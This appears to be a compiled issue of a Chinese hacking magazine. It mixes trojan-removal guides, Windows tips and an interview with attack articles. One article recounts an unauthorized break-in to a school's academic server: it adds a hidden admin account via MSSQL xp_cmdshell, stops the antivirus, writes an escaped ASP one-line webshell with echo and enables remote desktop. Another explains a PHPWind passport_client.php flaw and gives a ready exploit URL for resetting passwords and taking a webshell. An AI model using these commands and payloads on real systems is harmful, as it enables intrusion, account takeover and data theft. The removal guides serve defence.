## 1、清除灰鸽子 2005 的方法

通过仔细观察我们发现，对于灰鸽子的检测仍然是有规律可循的。从上面的运行原理分析可以看出，无论自定义的服务端文件名是什么，灰鸽子 2005 版本一般都会在操作系统的安装目录下生成一个以“_hook.dll”结尾的文件。通过这一点，我们可以较为准确地手工检测出灰鸽子服务端。

由于正常模式下灰鸽子会隐藏自身，因此检测灰鸽子的操作一定要在安全模式下进行。首先重新启动计算机，在系统进入 Windows 启动画面前，按下 F8 键在出现的启动选项菜单中选择“安全模式”。由于灰鸽子的文件本身具有隐藏属性，因此要设置 Windows 显示所有文件。打开“文件夹选项”后，点击“查看”标签并取消“隐藏受保护的操作系统文件”选项前的对勾，并在“隐藏文件和文件夹”选项中选中“显示所有文件和文件夹”，然后点击“确定”按钮退出即可。
接着打开 Windows 系统中的“搜索文件”对话框，然后在“文件名”中输入“_hook.dll”，搜索位置选择 Windows 的安装目录。经过搜索，我们在 Windows 目录下发现了一个名为 G_Server_Hook.dll 的文件，如图 1。

根据灰鸽子原理分析我们知道，如果 G_Server_Hook.DLL 是灰鸽子的文件，则在操作系统安装目录下还会有 G_Server.exe 和 G_Server.dll 两个文件。然后打开 Windows 目录果然发现有这两个文件，同时还有一个用于记录键盘操作的 G_ServerKey.dll 文件。

经过这几步操作我们基本就可以确定，这些文件是灰鸽子 2005 版本的服务端了，下面就可以进行手动清除。单击“开始”菜单中的“运行”命令，输入 Regedit 打开注册表编辑器，打开 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 注册表项。点击“编辑”菜单中的“查找”命令，在“查找目标”选项中输入“G_Server.exe”，然后点击确定我们就可以找到灰鸽子的服务项并删除它。删除灰鸽子程序文件非常简单，只需要在安全模式下删除 Windows 目录下的 G_Server.exe、G_Server.dll、G_Server_Hook.dll 以及 G_Serverkey.dll 文件就可以了，如图 2。然后重新启动计算机系统。至此，灰鸽子 2005 的服务端已经被清除干净。

## 2、清除灰鸽子 2006 的方法

由于灰鸽子木马从 2006 版本开始就使用了 Rootkit 技术，服务端文件的隐蔽性大大的增强，所以通过 IceSword 这款极品杀马工具才能检查到它的进程。运行 IceSword，接着按左侧工具栏中的“进程”按钮，很快发现一个被红色标明的 IE 浏览器进程，这就是被灰鸽子木马使用线程插入技术插入的程序进程。接着在这个进程上单击鼠标右键，再选择菜单中的“模块信息”命令，然后在弹出的窗口发现“G_Server2006.DLL”和“G_Server2006Key.DLL”的两个 DLL 文件，如图 3。通过这两个 DLL 文件再加上灰鸽子木马的命名方式，就可以确定木马文件名为 G_Server2006。

现在就开始清除工作，仍然在安全模式下操作。首先点击 IceSword 工具栏中的“注册表”按钮，接着在 IceSword 程序模拟的注册表界面中依次展开下面的注册表项目：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services，然后从该子键中找到灰鸽子的启动服务，选中它以后点击“仅删除服务键值”
图 4 找到灰鸽子添加的注册表项

按钮将其删除即可，G_Server2006 的项就是我们要查找的灰鸽子的服务项，删除该启动项即可。接着重新启动计算机，只需要在安全模式下删除 Windows 目录下的 G_Server2006.exe、G_Server2006.DLL、G_Server2006Key.DLL、G_Server2006Key.log 等文件就可以了，如图 4。到此为止，灰鸽子 2006 的服务端已经被清除干净了。

## 3、清除灰鸽子黑防版的方法

灰鸽子黑防版是除了以上介绍版本外的另一个主流版本，它的流行主要是因为该版本是一个完全免费的灰鸽子木马。黑防版的灰鸽子在启动方式上有明显的
图 5 结束指定的进程

区别，上面的版本都是采用线程插入的方式启动服务端程序，而黑防版则是采用 IE 进程启动的方式。

首先运行 Syscheck2 这款反黑辅助工具，点击窗口中的“进程管理”按钮后在列表中找到 IE 浏览器的进程。Syscheck2 的进程管理可列出 Win32 级的隐藏进程，其中在进程列表中被标注为红色的是非系统的进程或文件，而那些被标注为粉色的进程就是被恶意程序线程插入的系统进程。在 IE 的进程上点击鼠标右键，并选择“仅结束指定的进程”即可结束该进程，如图 5。

然后直接点击“服务管理”按钮来查看系统服务，同样程序以红色显示的是非系统服务。单击列表标题中的“创建时间”选项可以按照安装时间排序，以便快速查找新增的灰鸽子系统服务。通过侧边栏在服务列表中找到最下面的一个服务，它就是灰鸽子的启动服务，选中它点击右键，选择“仅删除服务键值”按钮将其删除即可，如图 6。然后重新启动计算机系统，在系统的 Windows 目录里找到服务端文件删除即可。
图 6 删除服务的键值

## 4、清除灰鸽子 2007 的方法

灰鸽子 2007 是新的灰鸽子变种，目前灰鸽子 2007 还处于测试阶段，它会利用一些特殊技术将自身伪装成计算机上的正常文件，并能躲避网络防火墙软件的监控，使用户难以发现。灰鸽子 2007 服务端运行以后，会将自身伪装为系统正常进程 Winlogon.exe，并释放一个名为 G_Server2007.dll 的服务端文件。灰鸽子 2007 在启动方式上既使用了线程插入的方法，也使用了进程启发式插入的方法。
可以查看利用该进程的服务端模块，然后通过右键中的“终止标记进程”命令来对这些进程进行结束，如图 7。

点击“服务管理”标签后，程序会自动对系统服务进行扫描，并且对检测到的可疑或隐藏服务以黄色进行标注。另外通过右键菜单中的“检测隐藏服务”命令，还可以对隐藏的服务进行扫描，这样被灰鸽子木马隐藏的启动服务就可以立刻现形，如图 8。

然后通过鼠标右键中的“删除服务”命令对灰鸽子的启动服务进行删除，最后进入系统的 System32 目录中删除其中的 G_Server2007.exe 和 G_Server2007.dll 这两个文件即可。

# 5、在 9x 系统下清除灰鸽子的方法

上面介绍的四种方法主要是针对 Windows NT/2000/XP/2003/Vista 这些版本的系统的，但是对于 Windows 98/Me 这类操作系统，我们又该如何进行清除操作呢？通过仔细观察可以发现，对于灰鸽子的检测仍然是有规律可循的。从上面的运行原理分析可以看出，无论自定义的服务器端文件名是什么，它的启动项和服务端文件的名称都是一样的。

虽然灰鸽子使用了 Rootkit 技术，但是该技术在 Windows 9x 系统中并不起作用，再加上灰鸽子在 Windows 9x 系统中只有一个启动项，因此相对来说清除操作更为简单。运行注册表编辑器，打开 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 项，我们立即会看到名为 G_Server2007.exe 的一项，将 G_Server2007.exe 这个启动项删除即可。

另外，灰鸽子程序文件删除更加的简单，只需要在安全模式下删除 Windows 目录下的 G_Server2007.exe 和 G_Server2007.dll 这两个文件，然后重新启动计算机系统即可。到此为止，灰鸽子木马服务端已经被清除干净了。

# 三、点评

从上面的过程我们可以看出，灰鸽子木马并不像某些安全厂商宣传的那么厉害，从其对系统本身的破坏性来说并没有“熊猫烧香”病毒那么厉害，任何人只需要在一些安全工具的辅助下就可以轻松地对其进行清除。所以用户就算是被黑客种植了灰鸽子木马，只需要通过上面的方法对其进行清除，然后及时更改自己的网络账户密码就可以了。

> [文章中涉及到的工具 IceSword、超级巡警和 SysCheck2 光盘中有收录]

**编辑点评：** 本文算是对灰鸽子木马服务端清除的一个总结了，从这些手工清除病毒文件以及病毒对系统所作的修改的方法中我们不仅能够清除灰鸽子，对于其它木马和病毒的清除方法和这也是很类似的。学以致用并能举一反三，这样才算真正学到了东西。前一段时间金山和鸽子闹得厉害，貌似最后鸽子败下阵来。鸽子说自己是远程控制程序，但是像文中描述的这样运用了这么多 HOOK 技术似乎有些说不过去，而金山对鸽子的过分“热情”也不禁让人猜测这其中是否有更多其它的意图。灰鸽子远程控制引发的一些事情也再次证实了黑客技术是一把双刃剑，结局如何取决于使用者。

# 对《服务器 IPSEC 防御 CC 攻击》一文的补充

花非花

在 2006 年 11 月杂志中，我写过一篇名为《服务器 IPSEC 防御 CC 攻击》的文章。经过剑心大哥的测试和帮助，我自己也测试了一下，由于代理服务器不是只有常见的几个端口，所以如果攻击者更改代理端口，那么管理员这边也得跟着关闭闭端口的连接。这样显然是不现实的，不仅造成流量的丢失，更重要的是无法抵御时刻变动的端口（攻击者可以任意更改代理端口）。所以，要防御 CC 还是应该从代码入手，这篇文章对一些朋友的误导，本人深感抱歉，在此向大家道歉了。
peace

- 从本文中你可以学到：
- 命令提示符的快捷键以及作用

平时我们在使用 Word 等应用程序时，常用的操作，尤其是重复性操作，都会使用快捷键来代替鼠标点击，可以成倍地提高工作效率。其实命令提示符也有很多的快捷键，同样可以起到事半功倍的效果，尤其是在玩溢出时。下面我就将 CMD 下的快捷键一一列出与大家分享。

F7：以图形方式显示运行过的命令（仅指当前实例）的历史列表，如图 1。
可以用上下方向键选择命令，左右方向键为将其输入到当前提示符后。因为其它快捷键涉及到它，而且非常实用，因此第一个将其列出。在 DOS 系统中它也适用。

F1 或右方向键“→”：如果连续按 F1 键，命令提示符将逐个字符地显示最后输入的一条命令。如果图 1 列表为空，则此快捷键无效。例如先前运行了 “CLS” 命令，按 F1 一次后自动输入 C，两次后自动输入 L，三次后自动输入 S。

**F2：** 按下此键，会提示 “输入可复制的字符数量”，这里并不是要输入一个数，而是输入最后一条命令中所包含的一个字符（注意区分大小写），命令提示符将自动完成最后一条命令中此字符之前的所有字符。例如先前运行了 “cls” 命令，按下 F2 再输入 s，命令提示符将自动输入 cl。

**F3：** 自动输入最后输入的一条命令在当前位置。如果已经输入了部分字符，按键后将自动输入剩余字符，但要注意已经输入的字符必须是最后一条命令中正确位置的字符，否则命令是错误的。例如先前运行了 cls 命令，再输入 n 后按 F3，自动输入的将是 nls，而不是 cls。

**F4：** 按下此键，提示 “输入可删除的字符数量”，按下字符键，自动删除已输入命令中从当前光标到其后第一个按键字符之间的字符串，例如已输入命令 net user，把光标移动到 t 字符下，按下 s 将显示 neser。

**F5 或上方向键 “↑”：** 如同按 F7 键后按上方向键选择历史命令一样，向上逐个显示历史命令，到顶后不再循环显示。

**F6 或 Ctrl+Z：** 输出字符 ^Z，主要用于 debug 中，在 DOS 中结束文件输出。例如运行命令 copy con c:\1.txt 后，再输入其它要写入文件的内容，但只有按 F6 或 Ctrl+Z 后写文件才能成功结束。

**F8 或下方向键 “↓”：** 如同按 F7 键后按下方向键选择历史命令一样，向下逐个显示历史命令，到底后不再循环显示。

**F9：** 按下此键，提示输入命令号码。此号码为按 F7 键后显示的历史命令列表中每个命令前面的数字。例如图 1 中的命令 net user，按 F9 后直接输入 2 就可以。

**Alt+F7：** 清除所有曾经输入过的命令的历史记录，也就是如图 1 所示的命令列表。

**ESC：** 清除当前命令提示符中的命令。

**Ctrl+M：** 相当于回车键，确认运行命令。

**Ctrl+H：** 相当于 Backspace 删除键，删除光标左边的一个字符。

**Ctrl+C 或 Ctrl+Break：** 强行中止命令执行，例如执行命令 dir %windir%\system32 后，命令会运行很长时间，这时就要用这两个快捷键来中止命令继续运行。

我所知道的快捷键就介绍到这里，希望对各位菜鸟有用，呵呵，我也是菜菜。

**编辑点评：** 命令提示符虽然执行任务速度快，但它的复制、粘贴以及拖拽等功能确实不如一些例如 Word 等的文本编辑工具强大，一遍遍地输入同一条命令会让人感到繁琐，虽然可以用批处理解决，但很简单的任务就动用批处理是不是有劳师动众的感觉呢？学到了文章中的这些快捷键的用法可以增加你的工作效率，不管你做什么。小编最常用的就是上下方向键和 Ctrl+C 了，很方便的。

# 快速安装系统补丁

红色 GE

**从本文中你可以学到：**
快速安装系统补丁的方法

今天一天之内，重装了 2 次系统……每次都有 50 几个漏洞要打补丁，等得俺心都凉了。那么有没有轻松一点的方法安装系统补丁呢？答案是有的，今天我就为大家介绍一种方法。

# 1、下载系统补丁

首先安装 360 安全卫士，点击 “修复”，接着再点击 “修复系统漏洞”，如图 1，出现很多系统漏洞。

这时用迅雷下载这些漏洞，点击需下载的补丁就会出现如图 2 的对话框。
图 1 安全卫士扫描出许多系统漏洞

接着点击补丁地址，迅雷就会自动弹出 “建立新的下载任务” 的对话框，这时新建一个文件夹，将补丁下载到这个文件夹中。
图 2 对系统漏洞的描述信息

# 2、安装系统补丁

最省力的方法就是自动安装啦！^_^ 用 “自动安装系统补丁” 工具，运行 autopatch.exe，选择刚刚存放补丁的文件夹，按下 “确定”，如图 3。点击 “开始安装”，如图 4，我们可以去休息了，过一会儿就安装好了……嘻嘻 ~
图 3 选择补丁所在的文件夹
图 4 自动安装补丁

# 3、总结

这个方法虽然简单，但很实用，可以节省不少时间！

> [文章中涉及的工具 360 安全卫士和自动安装系统补丁工具光盘中有收录]

**编辑点评：** Windows 中的功能很好用，有的却不尽如人意，比如下载，没有内嵌专业的下载工具，不知道微软开发过没有。下载补丁更新有时候的确是一件很让人郁闷的事情，类似的还有一些比较大的程序下载的时候必须用官方开发的客户端程序，使像 “迅雷” 这样的下载利器没有了用武之地。这篇文章给我们指出了一条快速安装系统补丁的光明大道，配合迅雷 “不及掩耳之势” 的速度和后面的那个自动安装补丁的程序，相信更新系统补丁不会再是一件麻烦的事情了。
# 轻松下载视频站点中的 FLV 文件

JiaJia[YuLv]

- 从本文中你可以学到：
1、利用 Internet 临时文件夹获取 FLV 视频文件
2、使用 FLV Downloader 获取视频文件

## 一、起因

现在越来越多的人喜欢在线看视频电影、视频动漫之类的东西了，顺其自然地就有许多的视频共享网站跟着发展起来了。然而，他们有共同的特征，那就是都采用了 FLV 格式的文件，因为这样方便把视频镶入 FLASH 中发布。

但是，我想大家在线看这些视频的时候都想过要怎么把这个 FLV 文件给弄下来吧？我同样也遇到了这个问题，所以今天跟大家分享一下我是怎么拿下这些视频 FLV 文件的，下面我们进入主题。

## 二、分析与解决

一开始我想的是用嗅探软件来找它的地址，但是发现行不通，那只能手工来了。相信很多朋友都知道，在 Windows 中缓存是一种改善浏览网页速度极为有效的一种手段，所以很多东西都会存在缓存里。没错，FLV 文件也不例外。当你在在线看视频的时候，FLV 文件就在加载，加载完后系统为了下次访问加快速度，所以会把它保存在缓存内。

#### 浏览器磁盘缓存的工作原理:

当设置一定量的磁盘缓存后，浏览器上网工作时会把从网上读出的网页、图像以及其它数据存放在磁盘缓存之中，并建立相应的文件索引。在浏览器以后的工作中，将首先检查磁盘缓冲区中是否存在相应的数据，如果有，则直接从本地磁盘上读出，不再从网上下载，所节省的时间是显而易见的。

那么缓存中的文件在什么地方呢？在 XP 下所在位置为 “C:\Documents and Settings\您的当前用户名\Local Settings\Temporary Internet Files”，设置显示隐藏文件就可以进去了。如图 1、图 2。
在 Temporary Internet Files 目录下可以看见很多的文件，要快速地找到 FLV 文件可以使用搜索，也可以根据大小排列之后找到，因为 FLV 视频的文件一般都比较大。在缓存
文件列表中可以很方便地看到 FLV 的链接地址，根据链接地址又可以很快判断出来哪个是你想要的视频了。接下来的工作我想不需要说，相信大家也应该知道怎么做了。
在这里还有一个更方便的办法可以取得大部分视频网站的 FLV 文件地址，那就是使用在线视频地址提取工具 “FLV Downloader”。登陆网站 http://www.quchao.com/video/#，粘贴视频所在页面地址，点击“获取地址”即可出现结果，如图 3。

目前支持 121 个常用视频共享站点，可以说基本够用了。之后可以去下载一个支持 FLV 文件格式的播放器来看，如影音风暴。迅雷中也自带了 FLVPlayer 的插件，如果大家想把 FLV 文件转换成 mpg 文件，可以使用 Riva FLV Encoder。

## 三、写在最后

如果大家有什么疑问或者想法都可以到 NoHack 的 BBS (http://www.NoHack.Cn/bbs) 或我的 Blog (Http://Www.YuLv.Net) 上留言。我的 ID 是 JiaJia。

[文章中涉及到的工具迅雷 FlvPlayer 插件和 RivaFLVEncoder 光盘中有收录]

> 编辑点评：我们要想获得没有提供下载的视频或音频文件，最首先应该检查的就是文章中提到的那个本地文件夹，也就是 Internet 临时文件夹，里面保存了很多网页元素，包括图片、FLASH 和部分音频文件，要想快速定位你要查找的文件，最好的方法是按照时间或者类型排列文件或者直接搜索吧！用文中提到的“FLV Downloader”下载 FLV 文件也是个比较方便的方法。

# 乘胜追击——渗透教务处

Evilguy

- 从本文中你可以学到：
1、一句话木马的使用
2、CMD 命令中转义符的使用
3、几个入侵中常用的 CMD 命令

前一阵子拿到了学校主站的 3389，后来发现管理员修复了一下，我也就没再去“骚扰”它了。不过我最想的还是教务处的那台 Windows Server 2003。

最近在内网用 X-scan 扫了教务处的那个网段 (192.168.30.1-192.168.30.40)，居然发现教务 web 服务器 192.168.30.2 上有 MSSQL 的弱口令，而且还是 sa 的 (估计教务的数据库和 IIS 是在同一机器上的)。我意识到，教务服务器被我拿下了，又是迟早的事了。刚才连上的 MSSQL 的 CMD 可以执行系统命令，我就用 `net user username$ password /add` 建立个新用户，再用 `net localgroup administrators username$ /add` 提权，方便以后登录。:-)

找了个 MSSQL 的连接工具，输入教务处的内网 IP 和用户名密码，连接成功，如图 1。
xp_cmdshell 这个重要的扩展存储函数（邪八上面说这个扩展存储是个高危的函数）居然没被删，可以执行命令，用 echo 命令写入文件。先用 `net stop "symantec antivirus client"` 停了诺顿（我学校服务器用的杀软怎么都是它啊？），以后才好上传木马。

在服务器里翻来覆去地找了半天，终于找到了网站目录了：F:\jiaowu\QzJiaowuCjgz0527\QzJiaowu0523，我就想着用 echo 命令写一个一句话木马上去。问题也就随之而来了：一句话里面的那几个 <> 怎么输啊？回寝室翻了翻前几期的《黑客手册》，在去年最后一期的《手册》上，找到了点有用的东西：在敏感字符（如 < >）前加个 ^ 做转义字符，就可以写入了。

于是我在命令行下面输入：`echo ^<^%25eval request(^"^k^")%25^>^>F:\jiaowu\QzJiaowuCjgz0527\QzJiaowu0523\conn.asp`，再用 `type F:\jiaowu\QzJiaowuCjgz0527\QzJiaowu0523\conn.asp` 看了看文件内容，确认我用 echo 把内容写入到 conn.asp 了，接着就找个海阳客户端连了上去，如图 2。
用 net start 看了看开放的服务，有 Terminal Service，但是再用 netstat -an 看看开放端口，却又找不到 3389 端口，郁闷死 ^_^ 海阳有个探测终端服务端的功能，我跑去看看终端端口，是 3389 啊，没改，这鬼就大了啊。
没办法，跑到邪恶八进制找了个开 3389 的工具传了上去。为了方便起见，就传到网站目录了，再用 start 命令运行。不晓得要不要重启（后来也是在邪恶八进制上看到 2003 开 3389 不要重启的），就用 `shutdown -r -t 0 -f` 命令重启了一次。管理员要是在服务器

旁边肯定发现了，为了保险起见，暂时收工吧！

过了几天，再连上去，看看 `netstat -an` 的输出结果，确实开了 3389，如图 3。

用远程桌面连上去，对方的桌面出来了。打开 MSSQL 企业管理器，教务处的账号都出来了，如图 4。
看起来是成功了，不过上面所说的一切都是在内网，我从 3389 登陆上去后，顺手就关了防火墙。看了防火墙，我是无语了：这么大一个学校，教务系统程序价值 60 多万，用的防火墙居然是天网的，还是试用版的，我算是见了世面了！后来我却忘记了防火墙是自己关的，就抱着碰运气的心情，从外
网直接开远程桌面连 jiaowu.xxxx.net，居然连上去了！从外网连上了 3389，整个人傻过程也就算是成功了。最后截个系统属性的图吧，这是我的习惯，如图 5。

> [文章中涉及到的工具: 开启终端服务的工具 3389.exe、MSSQL 连接器和海阳的 ASP 木马，光盘有收录]

编辑点评: 入侵的起点是那个 MSSQL 的 SA 弱口令，接下来发生的一些自然顺理成章了，还是那个道理: 安全是一个整体，任何一个细小的漏洞都可能造成主机权限的丧失。文章对入侵过程描述得不够详细，虽然方法都是很一般的，但是对于一些初学的朋友来说也许还是比较难理解吧! 这篇文章也说明入侵是一种综合了各领域技能的黑客活动，如果你没有掌握 CMD 命令，抑或是不晓得数据库方面的知识，也许很容易拿下的一台主机在你看来却竖不可摧。很多时候不是对方多么多么强，我们应该先思考自己是否都做好了。

# 战争游戏

## 永远的 XApache 呢喃春语

最近的天气好像吝姑娘的脸庞，晴朗而又带着些笑意，北京有很多上班一族和学生朋友开始放下劳累了一周的工作和学业，满心欢喜地投入到了大自然中。小编也开始到郊外去享受微风，欣赏美景了。并且在海淀西南靠近石景山的地方，看到了很多郊游、放风筝、抖空竹的人。五月，在书包里揣上一本 Nohack，去绿色的田野边徒步走走，不忘自己的青春岁月。 Guigui

在康尼 17 岁那年，父亲苦心经营的银行倒闭了，赔得一塌糊涂。父亲心中带着无数的不满将被告推上了法庭，父亲自己知道，这是一场没有悬念的官司，可他还是执著地坚持了。根本没有悬念，因为，他的被告是美国政府，最终父亲败诉。康尼已无法容忍，每个人的心里都存在着一个不能承受的底线，而这底线正如野兽一般吞噬着康尼所谓的正义与道德。康尼决定要他们付出沉重的代价。不满 18 岁的他深受打击，从那一天起，康尼决定以一颗复仇者的心来对待这个社会，以黑客的手段来报复这个国家，开始了一个逆流者的生活，一个人战争的艺术。康尼试图用黑客技术破坏世界银行系统，使之崩溃。世界银行系统有一批专业的计算机高手，系统内部错综复杂，分支繁多，

# 采访教主

教主，不是《倚天屠龙记》里那个风流倜傥、身边 N 多 MM 的张无忌；也不是《笑傲江湖》里的东方不败……他，只是一个网络上的 ID。本期采访就让我——小滋，带大家和教主来一次 0 距离接触，让大家了解一下真实的教主。

NoHack：Hello! 教主，能否先和大家简单地介绍一下自己？

教主：Hello，大家好，我是教主，也是和大家一样，是网络安全攻防的爱好者。

NoHack：你可以算得上是接触网络安全比较早的一批人，当时是什么原因使你接触网络安全，并且一路走了下来的呢？（ps：不会是因为你那都是 MM 的 QQ 号丢了想盗回来吧？^^）

教主：我不算是最早的一批，不过也算是比较老了。4 年前正在流行 SQL 注射脚本入侵，觉得黑站特别容易，当时也结识了一批玩脚本的朋友，所以就志同道合一起走上这条道路。并不是因为 QQ，呵呵。接触这一行时间久了，感觉这一行比较适合我，同时也觉得网络安全在国内的市场会越来越好吧，所以就一直在这一行上坚持发展。

NoHack：你认为一个合格的黑客应该具备什么样的技术？

教主：我认为一个合格的黑客应该具备的技术：

- 1、编程语言必须熟悉一种！
- 2、对系统要很熟悉。
- 3、对网络命令要熟悉。
- 4、最好能够具备反汇编能力，这样就可以找出系统的漏洞了。

NoHack：现在很多网站或者论坛都在呼吁要有黑客精神，你所理解的黑客精神是什么？

教主：我所理解的黑客精神，就是愿意与别人分享自己的成果，也就是有一种执着的精神。不管是对于技术还是对于自身的素质和道德。

NoHack：你说的这些话让我想起了刚开始这个圈子里面的共享精神，不过现在随着虚拟网络财产和经济利益的挂钩，那种氛围已经不复存在，并且形成了产业链，这是一种悲哀还是……

教主：事实确实如此。现在的网络商人太多了，有技术、有成果的不愿意 share，导致现在国内的现状还是处于脚本状态。黑客产业无非就是游戏账号、装备等，这是一个必然的趋势，不过现在我们国内就有点过火了。悲哀说不上……毕竟外国国内都是这样了，只能说这是一个黑色产业，也算是一个趋势吧。

NoHack：网上传闻你开了家 KFC？是空穴来风还是真有此事？

教主：这事我也听说了，不过我确实没有开 KFC。不知道是哪个朋友放出的风，也许是恶人节开的玩笑吧！

NoHack：那天在群中听一些朋友说 www.jiaozhu.net 上公开出售一些游戏道具，还有传闻说你通过搞韩国的游戏赚了一桶金子？

教主：这段时间我收到很多朋友给我发来的消息，说网上有教主工作室出售游戏账号木马等。借此机会我澄清下：我不会销售这些东西，而且我看了联系方式，都不是我的，请大家不要上当！我的确是搞过韩国游戏，但是没赚过多少钱。韩国游戏管理员很 BT，修改个数据库就触发监视器并且以手机短信方式通知管理员，没多久你就被“请”出去了。

NoHack：呵呵，现在很多人都开发了自己的工具，国内的 PHP 注入工具还很少，一般的 PHP 注入工具都是辅助注入。你好像开创了一个先例吧？你所开发的 HDSI 却具备了傻瓜式注入的简便操作！当初是什么原因让你有开发 HDSI 的想法？在开发过程中遇到过让你放弃开发 HDSI 的困难吗？

教主：我使用 NBSI 的时候，它仅仅支持 ACCESS 注入。我当时是抱着做第一个支持 SQL Server 注入的工具来进行开发的，不过在我发布 HDSI 之前 NBSI 也发布了 SQL SERVER 版。呵呵，不过我没中途放弃，也想过要把 HDSI 做成能够和 NBSI 相媲美的注入辅助工具，所以就有了现在的 HDSI 3.0。在开发 HDSI 的过程中，没有遇到太大的困难，其实脚本注射软件只要有了原理就不难做。代码和测试是苦力活而已。

NoHack：那以后 HDSI 是不是还会加入比如 JSP 注入、ASPX 注入等功能……或者说把一些渗透时常用的一些软件综合到 HDSI 中？

教主：HDSI 已经停止了开发，我个人觉得 HDSI 已经很好了，没有必要再继续进行开发。如果有需要这样功能的软件的朋友，可以去 Google 搜索到 HDSI 的源码并进行二次开发。对于 JSP 注入，我觉得存在漏洞的网站实在太少了；ASPX 如果存在注射漏洞的话，注入的方法等同于 ASP。

NoHack：Oday，现在这个在网络上一直是热门！不知道你手里有几个 Oday？据说你有 IIS 的 Oday，是不是真的？

教主：Oday 的确是可望而不可及的好东西！我手里现在只有 3 个 Oday。不过都不是关于系统的，IIS Oday 都是谣言。

NoHack：你有没有想过要搞一个自己的组织，和一些志同道合的朋友共同营造一个网站呢？

教主：www.jiaozhu.net 和 www.rootkit.com 一直是我对外公布的网站，我没有想过要搞一个组织，但是我希望能够有些志同道合的朋友共同营造一个有氛围的网站。www.jiaozhu.net 前段时间一开放论坛就遭受 DDOS 攻击，我不知道何人要这样做，导致现在论坛无法登录。不过我觉得感谢——惆怅...，他在为我准备一个服务器作为 jiaozhu.net 的运行服务器，希望更多的朋友进入我们这个圈子。

NoHack：最后，能否公布一下你的联系方式？或者说在哪里能够和你进行技术交流？

教主：我的联系 QQ 就不方便公布了，抱歉！如果想和我进行交流和探讨的话，请发邮件：jiaozhu@live.com，或者登录我们的论坛 www.jiaozhu.net

> NoHack：最后能加一小句恶搞的话吗？
教主：其实我是一个演员~_~
NoHack：教主千秋万载，一统江湖……
教主：“……”

> 后记：对教主的采访虽然时间仅仅用了半个小时，但在采访的过程中，让我深深地感受到了对他对网络攻防的热爱，还有他的黑客精神……

小天呢喃：新闻逐渐长大，小编很是欣慰，但越来越多的稿件时常让小编无法取舍。都是大家智慧的体现，经验的分享，舍弃哪一篇都于心不忍；但是杂志版面实在有限，新闻的版面更加有限，尽管每次都和主编争取更多的页面，无奈的还是有的文章没有办法刊登出来，每次都精挑细选，唯恐漏失一篇好文章或者文章中的一个闪光点。希望没有刊登的作者体谅，如果有好的建议，欢迎来 Email(iceskysI@gmail.com)。
希望更多的朋友加入我们，在漏洞的世界体验无限的快乐。
开心[E.S.T]

# 最新漏洞

### 攻陷 phpwind 的坚固堡垒 —— webshell 任我拿

- 从本文你可以学到：
1、最新 PHPWIND 漏洞利用
2、最新版 PHPWIND 后台拿 Webshell 的方法

PHPWind 是一款国内非常流行的基于 PHP 的 Web 论坛程序，其实安全性、稳定性、知名度等各方面都可以和国内另一著名论坛程序 discuz 相媲美，phpwind 官方论坛会员近百万。然而，最近 phpwind 的最新漏洞被公布，此漏洞可以直接取得论坛控制权，而且可以进一步得到 webshell，直接威胁到服务器的安全。许多知名网站包括一些安全站由于没有及时打上补丁，从而被黑客攻破。于是熊猫烧香过后稍微平静了一段时间的网络又掀起一阵血雨腥风，掀起一阵 php 程序的研究与入侵狂潮。

漏洞主要出自 phpwind 程序的 passport_client.php，受影响的版本有 5.0.1 及最新的 5.3。passport_client.php 里出现了程序员经常犯的毛病：变量没有初始化。而 php 程序里面变量没有初始化是很危险的，导致恶意用户可以直接构造这些变量，使程序绕过逻辑判断。为了让大家很好地理解这个漏洞，下面有必要让大家看里面的关键代码。

```php
---------- code ----------
passport_client.php:

if(!$passport_ifopen || $passport_type != 'client'){
  exit("Passport closed(PHPWind)");
} //提交：passport_ifopen =1&passport_type=client 可直接绕过
if(md5($action.$userdb.$forward.$passport_key) != $verify){
  exit('Illegal Request(PHPWind)!');
} //里面的变量都可以自定义
parse_str(StrCode($userdb,'DECODE'),$userdb); //注意 StrCode($userdb,'DECODE')，所以你要把你提交的变量$userdb，编码一下
if($action=='login'){ //提交 action=login
  if(!$userdb['time'] || !$userdb['username'] || !$userdb['password']){
    exit("Lack of parameters(PHPWind)");
  } //提交的 $userdb 解码以后要有这些数据
  if($timestamp-$userdb['time']>3600){
    exit('Passport request expired(PHPWind)');
  } //提交时间 userdb['time'] 大一点

  $rt=$db->get_one("SELECT uid $sql FROM pw_members WHERE username='$userdb[username]'");
  if($rt){ //如果有这个用户的话调用下面的语句修改密码等
    $sql && $db->update("UPDATE pw_members SET $sql WHERE uid='$rt[uid]'");
    $sql2 && $db->update("UPDATE pw_membersdata SET $sql2 WHERE uid='$rt[uid]'");
  }else{ //如果没有这个用户就会调用下面的增加一个
    $db->update("REPLACE INTO pw_members($sql1,groupid,memberid,gender,regdate,signchange) VALUES($sql2,'-1','8','0','$timestamp','1')");
  }
}
---------- code ----------


```

大家可以看到，passport_ifopen, passport_type这些变量都是没有初始化的，其他的一些变量也是可以自己定义的，只要我们构造相应的变量，满足前面的判断，就可以执行下面的 update 操作。此漏洞导致我们可以修改任意用户包括论坛创始人的密码，而且我们可以任意添加新用户，REPLACE INTO pw_members 这一句大家看清楚了，这里 REPLACE INTO 相当于 insert，注意这里加的新用户是没有管理权限的哦！

了解了漏洞的原理，我们就可以进行测试了。本来我们直接在 IE 地址栏提交 url 就可以实现攻击，但是由于里面有 StrCode 之类的函数来对变量进行处理，所以我们还是得依靠程序来构造变量。目前网上针对此漏洞的利用程序，已经有很多版本，有 php 版本、cmd 版本、exe 版本。最后提交的数据都类似：passport_client.php?passport_ifopen=1&passport_type=client&action=login&userdb=REdVQQ0DW1UEBBDXh1sKFKJrQkdHXBEGCwRbB1MLVGjcCQtVwQEAFPsdwgBBiJbVIQABFQFCfIIfQYPV1VXhNqL0gwRuhnRMvVwxwUU1KDw1OAxwHX18WRV1Dl5TBWcPUlslUgFd&forward=http%3A%2F%2Fwww.dhghost.cn%2F&passport_key=W9FTOWjxwVGny8u&verify=548f04e33e6af272c46a84dad8013e4

下面我们来测试漏洞，拿 webshell，我们就找一个 exe 版本的利用工具来测试好了。我们随便找一个论坛，是 5.3 的最新版本。工具上的 test bug 按钮用来检测目标论坛是否存在漏洞，好了，我运气好，提示这个论坛的 bug 存在，说明还没有打上补丁，如图 1。
